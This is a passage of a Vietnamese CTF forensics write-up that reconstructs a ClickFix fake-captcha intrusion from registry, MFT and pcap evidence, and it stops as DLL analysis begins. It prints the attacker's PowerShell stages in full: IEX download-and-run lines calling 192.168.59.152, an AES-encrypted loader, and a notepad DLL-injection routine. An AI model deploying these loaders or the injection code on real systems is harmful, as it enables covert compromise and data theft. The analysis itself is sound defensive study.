# spiny strace
## Description
```
The Intrusion Detection System flagged an unusual outbound connection from a 
workstation belonging to one of the company's employees. Nothing else was 
logged, no alert fired on the endpoint, and the user insists they "just 
solved a captcha".

You have been handed the forensic artifacts pulled from that machine. 
Reconstruct the intrusion end to end: how the user was tricked into running 
the first command, what was staged next, which processes the payload hid 
inside, what it stole, and where it sent the data.

Evidence: the artifacts are provided as a download with this challenge.
Archive password: infected

Warning: the archive contains live malware. Detonate only inside an isolated 
analysis VM with networking disabled.

- @0x4d & @m7mad
```
## Phân tích
- Bài cho 1 tệp pcapng và các artifacts được thu thập từ ổ đĩa C: của máy victim sử dụng công cụ Kape:

- Mô tả của đề bài cho ta 1 clue đó là hoạt động bất thường xảy ra sau khi victim giải 1 captcha, giả thiết ở đây đó là kĩ thuật ClickFix đã được sử dụng để đánh lừa victim bằng cách tạo 1 fake captcha hướng dẫn user giải captcha thông qua việc mở console Win+R, copy và paste cầu lệnh độc hại vào rồi chạy lệnh.
- Windows lưu lịch sử lệnh trong hộp thoại Run tại khóa `RunMRU` thuộc hive `NTUSER.DAT`, ta sử dụng công cụ RegistryExplorer để parse:

- Artifact RunMRU ghi nhận lệnh powershell dưới đây; thời điểm hiển thị trong Registry Explorer là 2026-07-26 11:52:09:
```powershell
powershell -window hidden -c "IEX (New-Object Net.WebClient).DownloadString(
'http://192.168.59.152/update.ps1')"
```
-> MITRE ATT&CK: Execution - User Execution: Malicious Copy and Paste - T1204.004
- Để khôi phục nội dung script, có thể kiểm tra PowerShell Script Block Logging (Event ID 4104) nếu log này được bật và còn được lưu giữ. Artifact hiện có không cung cấp bằng chứng log đó, vì vậy ta sẽ export từ pcapng:

- Sau payload ps1 đầu tiên, còn 4 tệp lần lượt được tải về từ 192.168.59.152 bao gồm windows.ps1, object.dat và captcha.bin, chromelevator.exe
- Điều tra xem victim đã truy cập trang web phising nào, vào khoảng 2026-07-26 11:51:15 victim truy cập 1 web có domain là captoolsz.vom:

- Trong tệp HTML mà trang web này trả về có chứa đoạn js chứa đoạn code powershell độc hại trên: 

- Check domain trên virustotal:

- Nội dung tệp update.ps1 extract từ pcap:
```powershell
try {
    Write-Host "Wait please, don't close this window..."
    
    $scriptBlock = {
        IEX (New-Object Net.WebClient).DownloadString('http://192.168.59.152/user_profiles_photo/windows.ps1')
    }
    
    $psi = New-Object System.Diagnostics.ProcessStartInfo
    $psi.FileName = "powershell.exe"
    $psi.Arguments = "-NoProfile -ExecutionPolicy Bypass -Command `"& { $scriptBlock }`""
    $psi.WindowStyle = [System.Diagnostics.ProcessWindowStyle]::Hidden
    $psi.CreateNoWindow = $true
    $psi.UseShellExecute = $false
    
    $process = New-Object System.Diagnostics.Process
    $process.StartInfo = $psi
    $process.Start() | Out-Null
    
} catch {
    
}

```
- Đoạn powershell script trên khởi tạo một tiến trình PowerShell ẩn → tải windows.ps1 từ ip 192.168.59.152 → thực thi script đó trong memory thay vì ghi ra disk → không hiển thị cửa sổ và bỏ qua Execution Policy.
- Nội dung windows.ps1 sau khi thực hiện deobfucate, rename lại một số biến:
```powershell
$key=[Convert]::FromBase64String('abXd3Jz/lRf4tk7NE1qCdTyDE58rcc1ogbwmowrwY0k=');
$iv=[Convert]::FromBase64String('DJ5TBOQsmADMnLtHkGoDPA==');
$encrypted=[Convert]::FromBase64String('nQsaSCv1hWc5+V8ssmjnRZUQ0EBqcRSu7KPOBjGabdFb4PTRgJHDCCOusKxXhw0LhCiD/d35nIzqUgpriITnYELNDZqg9+OuCrl7NE/4tpsqkT7uUwzbLaeFxFVelA9aANw4HjwfFMWV9Rd30ytw3Bfr3/4GQOu2ktsFbrt1FleddFu2ScjJoGLSG+GlPenDR5vEzW6beV6KEbayKlN4Y5bFQJ8DyUx6S/c0Nm13mRW0Kh4IUAdZN178fmbNhO9zyeoTEExgtykLOT8H9tEGjM/c79NCUHYXMehcr/HX8R2DuCodwUtPESRceG69OI9WFjkDYIDZMCxr8YxFD0YGdE/oKnIyfE5xLO5VhGrS79XPadvJaQMSb43U7XBmTAvzejL1R7DBzT6AnPxWG93qktMaTgPW2IHY8Gv4H9ixPdO8g+SBle6pgP7riNxKdfcWpGuMtGlAmFMvhXodeSwj39A/RjYYb2cO0i6l+H8AJNK79CYLV0rvRJ+GloOcmFR+vQ9C0OZk67FE3jeInk314QwIpRT+L2YvhGaE9l+9OEz++jpdgq20jeuemTsTielkXhVONlkwo2/8V9zNPHwIkAWLifZDM4TBKBDeEI9CFpEc90TLk/t2uZO+Yijy1GsIjHM5v+OUp3dcc6/ITi8j41reUrz7kFJ+ICWvk5CG32/y1szs3XgcMTsvJ+odoTrkpAPUN23TK2M8byn8WGcFsEXmhTM6xEgvVJINDWi2JmXtOETXiKxPHnBrIrlAPT13podwvLJSJPSHOVUXqGOvJwSVz9+w7QN+RfVW1G0jMyNhm5MPxqgQcGItkXMq+dY+wdkfIjOASlQjOy8oV4LKJf1PD1iFGQhQFlcsz3UkFWrcuKMMq2ZaMNeA5G8UwtS07W61xCDTUFoDeB+dHOvmnyqu4fZ6cjPxnd4orPExTWkbwVd2GrjCHCrbrZC3uywmqidR/jFjAw1DYamjvT0aYKnahY+buGmhrgJp2jYjCKSX+2eh4srx+5NCNI2PAZiJCloFjz8t6lOr7ucb4mjDggse2Eb8X8pAoO3qy1Oz95JUrUe26lRyLlKONSVNvaNAwEf2AJvvEXOc0Oz5gpVUyOeA613icAPDLNimwVxqgVZGoWyGAGwHpPmf4c/cj6xtW8ittO0itWL11q1S0Gv0PUJ1n2Fve3VL502vPzpZ4Mkv0Svci6lzQXCMwCZMag5iTnbh9UVuOTKtQxPOwx1viEoaoInZeqFytmVFg+Tk5Dp7Ord8HEuntvKY40etok/CqjVLPWlNwbqiicXma5k8EnqBRMD7ofWPX3Q7HnWrZCW64p2vuQe+tKwEj/2E4/ayOweioqclheZK2Wbip5jPXXxVz8KgdBRYiJof2sXYFSaRK8DsvRna4lr4Cw8asOnz/ki71W5+O47GdbZi4TbyR82VzESpSxFE2jnZELdsp4UPjYatOKov2yXWnZkkO+ahXSvCOzpAWFOLN4s2TLUQ3aU7ibIUw5/CfhqWmLfUUJ118fQi+sLwR8YTEyy7PnfdN5lkOhennDt1OjlBPRF7AJmJAtrufPR1zeIIBI6wKLO3HQiLBrG31+ObqGzWfdRruCu1yCF+REFy89h+rUCp//0+ckcuUi5pu1yMuWIjE5vMUbZQTZjByJK1CdElrxx2YQ8YpBO416v7RlRlUL6whrhbwpTHoyNWJWB61KlJbR7+/vuNzz5QFfPJV+MVRzmSfyXwlmRO+AxxMSdUj9N9vRdSocHOamUkiN806XQbvM91aYYF/NIqUi19q23b7sbDh4fD57j6oD+EVG1eFpNPga6dFSrWNHXeWKdQG389EFhgqQ9CuWyy7MZAry4I7oQGlWxbtGMfKkHZlo1tLq06O3D6bUiqlQgu7vsb1rCQTy3tfJ3qY0GLwlSSnNWBoA59g6oL1JB3jnFAx64qDqEH+Sm+qjPrdJcmDotOHHLgSKneJI+ys7C3+r3Qe8FTMqXDor/1LUdZjbSiMW1vO43qOYTSYUamSPWLVKr5EaWfw6l6eH+yV/OFD9xlOJMhcaHsGe7jDT5OvBuShqJfCXC5lzzRU5ARK6tUOvzXnX+JkdR3z9gcJeSLlaGCRcs4fr9fmBgQkcqm9ZXVoAk3HKqqInGBRCZfhdNE/4GpPNh3teP8T90Z2kaCyE3+9gwtv4Q5ABglPGOBLYvao7xno8TC9Jio4Yyrs286N4tX5I11JiQbB9CYNRBbvpsYGCpbM9GjdZdwvc447ACN0646QSG94JNsK9qNC3DwVSigGEomAr6ov3Rk2WE7/tlH0DHYoqOduHTsxR/2kbEmnCTTHAh1EHFyk8ISyYtEWcbT+YySFSntBVqa/a0WKSnIFDpv8RBZ7aRizYjstNpi6dy/8kAdTgCeCF4XCg3JI3FunzYgLLOjTBTQ2XCglA1n9QgyteGgpMnTX2PM05HVGkIvO9g+73RFrtEx0doePqFWnfbFyqnte60JEO0/+lXNld/7xbYn4/E8sLbHx3ZfTCyRFiww4lv8gvEHwCatiywhQLHTv31+rr0KmoldEFxJnGYB5eYTw5v5AU6SQFEY9lO5UhDvbi3WCcxThLL43W2HNjIX/emzfR28ZP919cbSrGB8JccXK5hL9j6dnkMey8VT0+29pIvcbjRKQiBU069Ox+bnUxel+URXpqToGYoh1wt3VQgSTS5Tcw24kHWYimVpywb8Ktn0T0E/oFB+Tgv6PNiR5FM5cBHZ1yyHJyoRVWBrgpP17nocgWw70L//AwwdafXusaJEXdKeOBMFW35070KhuSiX/7/0+X8Ux3Yv2OfDnpSclGHbjMqZ3qF2wj+eYUs9FHl/HlcNCQI7xQTJZFgL842jbMq3GwxUgkl5cJxwbZePD9VZg++cHPXJN9BGzXLLPdq1ESfh21nzTCRyXh9+SP45rC20PjrjYyqI5QvaDK8PDP2N+MQUS4dOTMkH4nUk2Dxa/0FT1xIb0+6618RW+xE91tnp7cdDSqRjy7MW1jSd+2WIKZATi4q7Rr8s0bLWTzQamSiTAX2wnPg+DU4Uv91MgrrZofd+QfNiY0Ht8pF6/h8p3eGHSw3C0BSjZsEzDPywruBNwgytIy0oU93bv451G7QheTIsl0bZddc5O39lO4T+VhfMum2ShKu/BYMbJ1Z7apfrKmPhOpbV+6l3MxBLHStFATEfALDY6NBbxtBiPCRIZePzVICFXGmCH3GRNPVaPFamBDkhf2qA4JZuYr9BvQIho9JkOn/owzGCycj9ryU81pOTY4Ih8Lx2bMsgfX2BCNm8jI97Tu+/V1lNsBfHhgNjyVrbe6kSxpXeQcv3IgYdG3i+zBZT6n6V4B8Ln3kaytAdIiZ/48SxAJN4D9sJeaJCKsKA5HfrKk036ugKYuIElVXRbiprnGeYoUjVeyVYq/pHqXYgwtryo8+x0vrsVxdSPrjY6T2/gR6oNzEytKPePI3LI2v+/8XkxhT+UpcrxLYyqHaz8Mjk5UaWVQVxTkGcTzpOxAUQH9w6ZfvAm7UFhfee32g1CeY5UtdaOKYDz3DFjnEuQZc0GtoyPe/O7X9M2UGWn7c909AoVVF9R6vePk7n5SrJ7aCuiz1g+lDFXBuwkywEd9XidsIZ9LGNlf4gGYoeC3QNffYyYsPs+eM+PMKVF0ssMka4tdJxSmIgZloxc56Ewq/4Qt4jKFmpPaWChqlCBUKKBXbcU6yWE/VEihdHz05DoFTkHlZWMk3kYyWb+K2HAaE7nsmZln5PXaQnx06P9e+WpAEAPQQgAef4tY2CSkgkI2SYEJj/1AjRZh8fW0PbLKUoNStD1CdxtUUjp9ss6inA8mH1GXQlGoNhBhGblQvkx+TdUNARa3A1q8oNyLt3d2gJOR+paZjyijut664WU0wFbfbXecZ1pdnSqh6ZQ3FhuWFxUv8fEslOwSPc/qKGh1Vte3kni4WDttkvVH053yRMMkn09IkKkW6BCDOetHvwdMWo62ivIkh3alVaaQm4DgezW9Z72Tty99ucBVT00J668VAjODHFjisR2tFgWZSc3qdDCWVP1s5h6vOx0sYfgBZ3agDfSJMdUxS+ekq8wWNNXMvjJGs5ytWf2+0jF2or0A4MzU3qZe8lrpadfAsXukXjejwM9xlR7y4bhJoQKJErGOD2bOTO3I81bHsX95Z6aoLi6ZMzu7rDdK1p3seuy/N6SUELiPlNpXIcKhIODg1OlcI100dBu2cce8dlsixLZpykEA1HlB3a2vW6XV8SP2Q7jmuhRjTJBpGRYmO8wX9mSKe42DnT97smDFfapF0Yy7HTAp/tjQSAdzNep2Lvh/MvvpFIcQZkSHefzX1DVTQCfByuxFsHIl/Dij3PoqgkZb3QGV+BOKeaLEXQdlOfjnalenoB4dienFYFc84j9Rs/+RWqUXFuX5G0e5osEKdXyZuwUV5qsQw6JrAIqoPN+4HD5yosPbcETTTpTJk1l1n11J0I9dn3QiQs0t4bfsdobMuk9S/jaAltXjLWp+Zn2HfCazUdzPUSqC8JcRT4aEppeds41RBs5VaPcPkbyBSK5exBxjWVFlazvZ0TZk7u8yETrm9vBV9h+bW7a8QLQTgFPjIc9Hpga7LBWlRQXPuby3U3x6g1O5Z7eF+O68kOJxrDEN/Rb3vI05GeDNXv+SVLOLB5z9zHqdn+qZpjjMkmg6MRh+WEZBd6vAwr1xgIudiMglN5qKC7LZ4sfSyvSunlMUaTIMf8o/S+PqjbtkREZXeh9HWdueVYhoAjy5+GWPWU068PEFfJDDVSyet/N5mJHRRb+yI7HAb75u9XOF4cM1YS0emh/T4XpLS1XUpGgfPm73Y7QHfWZbMjxkTJDuf6qrQG5bNDEh4vD4UlhLwBmr6VFmzQ4Q==');
$aes=New-Object ("Secu"+"rity.Cryptography.Aes"+"Managed");
$aes.Mode='CBC';
$aes.Padding='PKCS7';
$aes.Key=$key;
$aes.IV=$iv;
$decryptor=$aes.CreateDecryptor();
$plaintext=$decryptor.TransformFinalBlock($encrypted,0,$encrypted.Length);
$tuez=[Text.Encoding]::UTF8.GetString($plaintext);. ([ScriptBlock]::Create($tuez))
```
- Đoạn powershell script này đóng vai trò như 1 loader, nó decode và decrypt một đoạn base64 nhúng sẵn trong tệp trước khi chạy, dùng cyberchef để decrypt đoạn base64 trên:


```powershell
$rukp = @('

# Base64-encoded URL được decode để che giấu địa chỉ tải payload
$EncodedString="aHR0cDovLzE5Mi4xNjguNTkuMTUyL3VzZXJfcHJvZmlsZXNfcGhvdG8vb2JqZWN0LmRhdA=="
$DecodedBytes=[System.Convert]::FromBase64String($EncodedString)

# URL = hxxp[://]192[.]168[.]59[.]152/user_profiles_photo/object[.]dat
$url=[System.Text.Encoding]::UTF8.GetString($DecodedBytes)

# Tải encrypted payload object.dat từ remote server dưới dạng raw bytes
$encryptedData=(New-Object Net.WebClient).DownloadData($url)
$aes=[System.Security.Cryptography.Aes]::Create()
$aes.Mode=1
$aes.Padding=3
$keyHex="8a4a35876563f1ea8baad6cda0099c24d53d4ce5670b3b23b13063127611bb37"
$keyBytes=New-Object byte[] 32

# Chuyển từng cặp hexadecimal thành một byte để tạo AES key
for($i=0; $i-lt32; $i++)
{
    $keyBytes[$i]=[Convert]::ToByte($keyHex.Substring($i*2,2),16)
}

$aes.Key=$keyBytes
$ivHex="c0a675360817d8dba62cc79e2fa77734"
$ivBytes=New-Object byte[] 16

# Chuyển từng cặp hexadecimal thành một byte để tạo AES IV
for($i=0; $i-lt16; $i++)
{
    $ivBytes[$i]=[Convert]::ToByte($ivHex.Substring($i*2,2),16)
}

$aes.IV=$ivBytes
$decryptor=$aes.CreateDecryptor()
$decryptedData=$decryptor.TransformFinalBlock($encryptedData,0,$encryptedData.Length)
$decryptor.Dispose()
$aes.Dispose()

# Tạo 1 temp file, append .dll vào tên tệp rồi ghi payload đã decrypt vào
$tempDll=[System.IO.Path]::GetTempFileName()+".dll"

# Ghi decrypted payload xuống disk
[System.IO.File]::WriteAllBytes($tempDll,$decryptedData)


# Compile C# code inline để expose Windows API thông qua P/Invoke
# Các API này được sử dụng cho process injection
Add-Type -TypeDefinition
"
using System;
using System.Runtime.InteropServices;
public class N
{
    [DllImport(`"kernel32`")]
    public static extern IntPtr OpenProcess(uint a,bool b,uint c);
    [DllImport(`"kernel32`")]
    public static extern IntPtr VirtualAllocEx(IntPtr a,IntPtr b,uint c,uint d,uint e);
    [DllImport(`"kernel32`")]
    public static extern bool WriteProcessMemory(IntPtr a,IntPtr b,byte[] c,uint d,out IntPtr e);
    [DllImport(`"kernel32`")]
    public static extern IntPtr CreateRemoteThread(IntPtr a,IntPtr b,uint c,IntPtr d,IntPtr e,uint f,out uint g);
    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr a,string b);
    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string a);
    [DllImport(`"kernel32`")]
    public static extern uint WaitForSingleObject(IntPtr a,uint b);
    [DllImport(`"kernel32`")]
    public static extern bool CloseHandle(IntPtr a);
    [DllImport(`"kernel32`")]
    public static extern bool VirtualFreeEx(IntPtr a,IntPtr b,uint c,uint d);
}
"

# Nếu tiến trình notepad chưa tồn tại, tạo tiến trình, sleep 2 giây rồi lấy handle tới tiến trình

$pro=Get-Process -Name "notepad" -ErrorAction SilentlyContinue
if(-not $pro)
{
    Start-Process "C:\Windows\System32\notepad.exe" -WindowStyle Hidden;
	Start-Sleep 2;
    $pro=Get-Process "notepad"
}

# Thực hiện DLL injection vào tiến trình notepad thông qua chuỗi:
# OpenProcess -> VirtualAllocEx -> WriteProcessMemory
# -> GetProcAddress("LoadLibraryA") -> CreateRemoteThread

$procId=$pro[0].Id
$handleProc=[N]::OpenProcess(0x1F0FFF,$false,$procId)
$dllBytes=[System.Text.Encoding]::ASCII.GetBytes($tempDll+"`0")
$a=[N]::VirtualAllocEx($handleProc,[IntPtr]::Zero,$dllBytes.Length,0x3000,0x04)
$w=[IntPtr]::Zero
[N]::WriteProcessMemory($handleProc,$a,$dllBytes,$dllBytes.Length,[ref]$w)
$l=[N]::GetProcAddress([N]::GetModuleHandle("kernel32.dll"),"LoadLibraryA")
$t=0
$th=[N]::CreateRemoteThread($handleProc,[IntPtr]::Zero,0,$l,$a,0,[ref]$t)


# Nếu thread được tạo thành công, chờ tối đa 5 giây để thread thực thi, sau đó đóng handle và tiếp tục quá trình cleanup.
if($th -ne [IntPtr]::Zero)
{
    [N]::WaitForSingleObject($th,5000)|Out-Null;
    [N]::CloseHandle($th)
}

[N]::VirtualFreeEx($handleProc,$a,0,0x8000)
[N]::CloseHandle($handleProc)

Start-Sleep 2

# Xóa DLL tạm sau khi injection hoàn tất nhằm loại bỏ payload khỏi disk
try
{
    Remove-Item $tempDll -Force -ErrorAction SilentlyContinue
}
catch{}
');

# Ghép script và thực thi bằng ScriptBlock
$rukp = $rukp -join ''; . ([ScriptBlock]::Create($rukp))

```
-> MITRE: Stealth - Process Injection: Dynamic-link Library Injection - T1055.001
- Vì tệp DLL được tạo ra trong Temp đã bị xóa, ta sẽ parse $MFT để biết tên của tệp này:

-> File Name: tmp2A0E.tmp.dll
- Decrypt dll với cyberchef:


- Phân tích tmp2A0E.tmp.dll:
